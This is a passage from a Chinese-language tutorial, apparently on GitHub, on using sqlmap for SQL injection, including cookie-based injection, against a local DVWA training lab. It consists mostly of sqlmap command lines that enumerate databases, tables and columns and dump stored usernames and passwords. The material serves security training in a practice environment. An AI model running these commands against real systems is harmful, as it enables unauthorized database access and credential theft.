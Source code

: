 ```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/a1.txt --technique "U" -v 3 -D security -T users -C password,username --dump
```

---

### Cookie注入

**寻找注入点**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -u "http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=0s9ovm3mjc5q0ml922oi63oec4"
```

**获取所有数据库**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -u "http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=0s9ovm3mjc5q0ml922oi63oec4" --dbs
```

**获取当前的数据库**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -u "http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=0s9ovm3mjc5q0ml922oi63oec4" --current-db
```

**获取数据表**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -u "http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=0s9ovm3mjc5q0ml922oi63oec4" -D security --tables
```

**获取字段**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -u "http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=0s9ovm3mjc5q0ml922oi63oec4" -D security -T users --columns
```

**获取字段内的信息**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -u "http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie "security=low; PHPSESSID=0s9ovm3mjc5q0ml922oi63oec4" -D security -T users -C username,password --dump
```

**以上是sqlmap的基本用法，推荐在靶场sqli-labs中来进行练习，sqli-labs的通关教程正在编写，其中会通过sqlmap来进行注入，我们通过DVWA来练习手工注入，通过sqli-labs来练习sqlmap自动化工具的使用。**

